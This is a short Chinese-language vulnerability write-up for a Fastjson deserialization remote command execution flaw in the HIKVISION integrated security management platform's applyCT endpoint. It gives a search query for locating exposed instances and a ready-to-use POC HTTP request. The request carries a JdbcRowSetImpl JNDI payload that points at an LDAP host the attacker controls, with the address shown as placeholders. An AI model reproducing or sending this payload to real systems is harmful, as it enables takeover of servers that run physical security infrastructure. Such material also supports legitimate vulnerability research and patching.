

# HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```javascript
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

